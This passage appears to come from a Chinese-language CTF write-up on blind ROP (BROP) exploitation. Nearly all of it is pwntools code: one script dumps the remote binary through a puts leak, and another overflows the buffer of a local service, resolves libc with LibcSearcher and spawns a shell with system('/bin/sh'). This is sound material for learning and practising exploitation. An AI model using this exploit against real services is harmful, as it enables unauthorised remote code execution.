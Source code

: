 ```python
        return None


##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x400555
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
addr = 0x400000
result = b""
while addr < 0x401000:
    print(hex(addr))
    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

![image-20240407180226219](${images}/image-20240407180226219.png)

可以看到，真正的puts@plt在0x400560处

#### 利用

```python
 找不到本地最新的
from LibcSearcher import LibcSearcher

##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4005c0
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

sh = remote('127.0.0.1', 8888)
# sh.recvuntil(b'WelCome my friend,Do you know password?\n')
payload = b'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(rdi_ret) + p64(stop_gadget)
sh.recvuntil(b'WelCome my friend,Do you know password?\n')
sh.sendline(payload)
puts_addr = u64(sh.recv().strip().ljust(8, b'\x00'))
print(hex(puts_addr))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = b'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(system_addr)
sh.sendline(payload)
sh.recvall()
sh.interactive()
sh.close()
```
